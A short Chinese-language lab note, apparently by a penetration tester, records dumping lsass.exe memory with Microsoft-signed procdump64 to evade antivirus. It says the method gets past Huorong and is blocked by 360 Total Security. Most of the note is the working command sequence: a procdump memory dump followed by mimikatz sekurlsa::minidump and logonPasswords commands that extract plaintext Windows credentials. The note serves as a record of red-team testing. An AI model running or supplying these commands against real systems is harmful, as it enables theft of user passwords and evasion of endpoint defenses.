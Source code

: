 ### 结论
能过火绒  
不能过360安全卫士 v13

### 0x00 基本原理
利用procdump是微软签名的程序，自带免杀性  
这里要注意：需要使用64位的procdump以及64位的mimikatz

### 0x01 过火绒过程记录
受害虚拟机：Windows 2008 R2安装火绒  
执行命令
```
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
提取进程lsass.exe到文件lsass.dmp中，如下图  
![image](./pic/0.png)  
将lsass.dmp拷贝到宿主机中64位的mimikatz目录下，执行命令
```
.\mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```
成功解密出密码，如下图  
![image](./pic/1.png)  

### 0x02 过360安全卫士过程记录
受害虚拟机：Windows 2008 R2安装360安全卫士  
执行命令
```
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
会被拦截，如下图  
![image](./pic/2.png)  
